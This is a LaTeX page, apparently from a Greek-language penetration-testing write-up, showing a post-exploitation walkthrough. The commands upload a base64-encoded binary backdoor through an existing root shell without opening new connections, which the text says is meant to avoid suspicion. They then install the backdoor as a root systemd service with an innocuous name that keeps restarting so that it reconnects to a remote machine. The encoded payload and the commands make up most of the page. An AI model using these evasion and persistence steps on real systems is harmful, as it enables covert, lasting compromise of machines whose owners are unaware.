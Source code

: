 \documentclass[12pt]{report}
\begin{document}
Το επόμενο βήμα είναι το ανέβασμα του \textlatin{payload} στο μηχάνημα στόχο. Επειδή δεν θέλουμε να δημιουργήσουμε υποψίες με νέες συνδέσεις, δε θα χρησιμοποιήσουμε \textlatin{netcat, ftp, wget, curl} ή κάποιο άλλο τρόπο μετάδοσης αρχείων. Αντίθετα θα βασιστούμε στο μικρό μέγεθος του \textlatin{payload} και στο \textlatin{remote shell}, που έχουμε ήδη. Θα κωδικοποιησουμε το \textlatin{binary payload} σε \textlatin{base64} και θα κάνουμε αντιγραφή και επικόλληση τους \textlatin{ASCII} χαρακτήρες που προκύπτουν, μέσω του \textlatin{remote shell} σε νέο αρχείο. Στη συνέχεια αποκωδικωποιούμε το αρχείο αυτό και έχουμε το αρχικό \textlatin{binary payload} έτοιμο στην απέναντι πλευρά...
\begin{scriptsize}
\begin{verbatim}
root@kali# base64 muser
\end{verbatim}
\end{scriptsize}
Κάνουμε τώρα αντιγραφή τους χαρακτήρες από το \textlatin{stdout} και επικόλληση τους εντός εισαγωγικών σε μια εντολή \textlatin{echo} στο \textlatin{remote shell}.
\begin{scriptsize}
\begin{verbatim}
nagiosrootsh-4.3# echo "f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAA
AAAAAIAECACABAgHAQAAugEAAAcAAAAAEAAA28rZdCT0WjPJsSe9OTlI1TFqF4Pq/ANTKqogeZbz
v1nTvoi+LG5X65shSNpMWgrzj1lb142caebWxBOrESvlvNSkNtyf+h+oi4yotVJPtXJXc27I12Fm
Mydi3x3TkNGdeCeK60OXfQRjbXTpkNjDWqcRaSVDXZ6Rwyoa8tW5haSFGHh13BNYxnbRPsIl9enX
E2h9gaWQTAxWZvSBMeCXbTqVWJNeQMfvqC7dCdhMoJAQrXQ=" > muser64

nagiosrootsh-4.3# base64 -d muser64 > muser && rm muser64
\end{verbatim}
\end{scriptsize}
Με τη \textlatin{backdoor} στο μηχάνημα στόχο, μας μένει μόνο να δημιουργήσουμε το \textlatin{service} και να μετακινήσουμε το εκτελέσιμο σε θέση που δεν εγείρει υποψίες.
\begin{scriptsize}
\begin{verbatim}
nagiosrootsh-4.3# cp muser /usr/bin/muser

nagiosrootsh-4.3# cat > /etc/systemd/system/multiple-user.service << EOF
[Unit]
Description=System Multiuser Configuration

[Service]
ExecStart=/usr/bin/muser
User=root
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
EOF

nagiosrootsh-4.3# systemctl enable multiple-user
\end{verbatim}
\end{scriptsize}
Το \textlatin{service} δημιουργείται με τρόπο ώστε να γίνεται αυτόματη επανεκκίνησή του εφόσον δεν είναι ενεργό. Επίσης προσπαθεί να συνδεθεί ανά 3 δευτερόλεπτα. Αυτό γίνεται γιατί το \textlatin{payload} είναι φτιαγμένο ώστε να κάνει \textlatin{segfault} όταν δε μπορεί να συνδεθεί με το απομακρυσμένο μηχάνημα. Έτσι σε κάθε αποτυχία σύνδεσης επαννεκινεί το \textlatin{service}.
\end{document}
